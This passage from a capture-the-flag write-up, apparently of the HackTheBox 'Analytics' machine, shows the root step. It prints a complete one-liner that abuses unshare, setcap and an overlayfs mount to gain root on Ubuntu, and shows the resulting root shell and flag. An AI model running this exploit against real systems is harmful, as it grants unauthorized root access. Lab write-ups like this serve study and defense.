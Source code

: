    
    >>> os.listxattr('l/python3')
    ['security.capability']
    >>> os.listxattr('u/python3')
    ['security.capability', 'trusted.overlay.origin']
    

It could also be related to the value of the `security.capability` attribute.

#### Run Exploit

The exploit I like is this:

    
    
    unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
    setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'
    

This code escalates and runs the `id` command, and pasting it in returns a
user id of root:

    
    
    metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
    setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'
    uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
    

If I update that by replacing `id` with `bash`:

    
    
    metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
    setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'
    root@analytics:~#
    

And grab `root.txt`:

    
    
    root@analytics:/root# cat root.txt
    4fcb8f1e************************
    

[](/2024/03/23/htb-analytics.html)

